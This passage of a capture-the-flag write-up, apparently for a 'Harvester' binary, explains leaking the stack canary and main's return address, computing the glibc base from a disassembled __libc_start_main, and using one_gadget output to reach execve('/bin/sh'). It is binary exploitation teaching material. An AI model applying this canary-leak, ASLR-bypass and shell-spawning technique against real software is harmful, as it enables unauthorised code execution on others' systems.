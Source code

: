 so at the offset 11 we can leak the value of the canary, and at the offset 21 we can leak the return address of the ``` main ``` to the function ``` _libc_start_main ```. Now with the return address of the main leaked we can calculate the offset of the libc inside the process space because:

The return address is just ``` LIBC_BASE + RETURN_IstAddr_INSIDE_LIBC_START_MAIN ```, where the libc_base is randomized from ASLR that is enabled with PIE and the RETURN_IstAddr_INSIDE_LIBC_START_MAIN is the istruction address inside the libc where the main return without counting the random base.

So we can disassemble the libc and search the ``` _libc_start_main ```, then knowing that the shared libraries are mapped to the process space with a page o size 0x1000 we can assume that the last byte and nibble are untouched from the base address, for example here we have ``` 0x7f01ebf04d0a ``` and knowing what we have discussed before we know that the last ``` 0xd0a ``` of the addres are untouched from the randomization of the base address.

The following code is the disassebled of the ``` _libc_start_main ``` inside the glibc on my pc.

```asm
.text:026C20 __libc_start_main proc near             ; DATA XREF: LOAD:00000000000146A8↑o
.text:026C20                 push    r15
.text:026C22                 xor     eax, eax
.text:026C24                 push    r14
.text:026C26                 push    r13
.
.
.
.text:026CFC                 mov     rsi, [rsp+0C8h+var_C8]
.text:026D00                 mov     rdx, [rax]
.text:026D03                 mov     rax, [rsp+0C8h+var_B8]
.text:026D08                 call    rax
.text:026D0A                 mov     edi, eax ########### HERE CALL MAIN FUNC ###########
.text:026D0C ############################################ RET ADDR OF MAIN ##############
.text:026D0C loc_26D0C:                              ; CODE XREF: __libc_start_main+152↓j
.text:026D0C                 call    exit
.text:026D11 ; ---------------------------------------------------------------------------
.text:026D11
.text:026D11 loc_26D11:                              ; CODE XREF: __libc_start_main+5B↑j
.
.
.text:026DF7 __libc_start_main endp
```

So the base of the glibc is ``` leaked_ret_af_main -  0x26D0C ``` now that we have the base adress of the glibc we can ROP into a one_gadget, using the tool ``` one_gadget ``` we can find all the one gadget that are inside a lib.

```bash
┌──(eurus㉿ctf)-[~/Documents/Harvester]
└─$ one_gadget libc.so.6
0xcbd1a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xcbd1d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xcbd20 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

